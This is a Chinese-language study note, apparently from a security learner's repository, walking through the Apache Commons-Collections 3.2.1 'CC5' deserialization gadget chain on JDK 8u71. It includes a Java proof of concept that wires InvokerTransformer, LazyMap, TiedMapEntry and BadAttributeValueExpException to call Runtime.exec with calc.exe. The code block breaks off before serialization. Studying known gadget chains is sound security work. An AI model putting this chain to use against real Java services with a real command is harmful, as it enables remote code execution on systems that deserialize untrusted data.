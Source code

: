 ## CC5-commons.collection3.2.1 JDK8u71

前面与CC1的lazymap一致

改为了通过一个新的类TiedMapEntry来调用后续的LazyMap链

getValue()调用get



toString调用了getValue方法



利用类变为`BadAttributeValueExpException` 里面的readObject方法，其中有对java安全管理器设置的判断需要`System.*getSecurityManager*() == null` 

然后就通过`val = valObj.toString();` 来调用TiedMapEntry中的toString方法

将val值设置为TiedMapEntry类，然后在valObj = gf.get(”val”, null);设置为valObj最后valObj.toString()就调用了TiedMapEntry的toString方法





```java
package org.cc.cc1;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC5 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };

        Transformer transformerChain = new ChainedTransformer(transformers);
        HashMap<Object, Object> map = new HashMap<>();
        Map<Object, Object> lazyMap= LazyMap.decorate(map, transformerChain);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "wumonster");
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);

        Class c = Class.forName("javax.management.BadAttributeValueExpException");
        Field field = c.getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException,tiedMapEntry);

```